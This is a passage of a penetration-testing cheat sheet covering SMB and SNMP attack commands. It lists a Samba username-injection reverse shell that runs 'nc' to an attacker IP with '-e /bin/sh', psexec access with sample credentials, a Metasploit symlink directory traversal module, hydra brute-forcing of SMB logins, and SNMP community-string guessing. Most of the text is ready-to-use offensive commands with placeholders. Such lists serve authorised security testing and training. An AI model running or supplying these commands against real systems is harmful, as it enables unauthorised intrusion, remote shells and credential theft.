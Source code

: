```
$ smbclient //<IP address>/<share>
```

- SMB Reverse Shell (backticks)

```
smb: \> logon "/=`nc <Attacker IP address> <port> -e /bin/sh`"
```

- SMBMap Display Shares

```
$ smbmap -H <IP address>
```

- Psexec

```
$ python psexec.py pentest:'P3nT3st!'@<IP address>
```

- Nmap NSE Scripts

```
$ ls -la /usr/share/nmap/scripts | grep "smb"
OR
$ ls -la /usr/share/nmap/scripts | grep "samba"
```

- Symlink Directory Traversal

```
msf > use auxiliary/admin/smb/samba_symlink_traversal
```

- Exploit Version

```
$ searchsploit <term>
```

- Brute-Force

```
$ hydra -l root -P password-file.txt <IP address> smb
OR
Sparta GUI
```

Port 161 (udp/SNMP)
-------------------

- Onesixtyone Community Strings (Create a community.txt with lines: public, private, manager)

```
$ onesixtyone -c community.txt -i list_of_ips.txt
```

- Snmpwalk entire MIB tree

```
$ snmpwalk -c <community string> -v1 <IP address>
```
